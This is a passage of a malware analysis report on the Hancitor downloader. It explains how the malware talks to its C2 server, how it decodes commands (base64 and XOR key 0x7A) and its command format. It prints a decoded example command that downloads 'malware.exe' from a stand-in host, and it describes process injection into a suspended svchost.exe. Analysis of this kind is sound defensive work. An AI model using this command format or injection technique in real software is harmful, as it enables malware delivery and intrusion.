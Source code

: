 
### C&C Communication

![](/home/cyber_anubis/Desktop/Hancitor Report/screenshots/c2_communication.png)

​															<u>Figure</u>(10): <u>The malware checks for 200 OK response before retrieving the C2 commands.</u>

Hancitor extracts the C2 URLs and initializes the connection with the remote end using the high level ***Wininet.dll*** library APIs. It uses the following hard-coded User-Agent {"Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko"} which is very common.

First, the collected host profile is sent using HTTP POST request. Secondly, it accepts the matched C2 command based on the gathered information about the victim. The received C2 command is **base64** encoded and **XOR** encrypted with a key equals 0x7A. The malware performs the necessary decoding before interpreting the command. An example of a decoded C2 command is as follows {**X:http://badsite.com/malware.exe|**}

The command consists of 4 parts:
1- A character from the set **{'b','e','l','n','r'}** to specify what action to be performed.				2- The colon character '**:**' as delimiter.		
3- **URL** of the malicious content to be downloaded. 																		4- The bar character '**|**' as delimiter.



### Executing C2 Commands

![](/home/cyber_anubis/Desktop/Hancitor Report/screenshots/c2_commands.png)

​										                 <u>Figure</u>(11): <u>Conditional code flows depending on the 1st character of the C2 command.</u> 

After retrieving the C2 command and performing the appropriate decoding, the command is validated and then passed to the routing in which it will download and execute the malicious content. The malicious content will be downloaded using the URL at offset 3 from the beginning of the C2 string. Then, based on the first character of the C2 command, one of the switch case branches will be executed.

There are 5 available options or executions paths. Excluding the '**n**' command because it simply acts as a **NOP** operation, so we have 4 valid options.



#### The 'b' Command

This execution branch will perform a process injection in a **newly** created ***svchost.exe*** process with *CREATE_SUSPENDED* flag. The injected malicious code is first checked to be a valid PE file -DLL or EXE- in order to be injected. After creating a new svchost process in suspended state, the injection is done in a classic way using the APIs: ***VirtualAllocEx*** and ***WriteProcessMemory***. What is more interesting here is the way the malware sets the new Entry point for the malicious code.

![](/home/cyber_anubis/Desktop/Hancitor Report/screenshots/change_OEP.png)

​																	  <u>Figure(</u>12): <u>A thread context is a snapshot of processor-specific register data.</u>
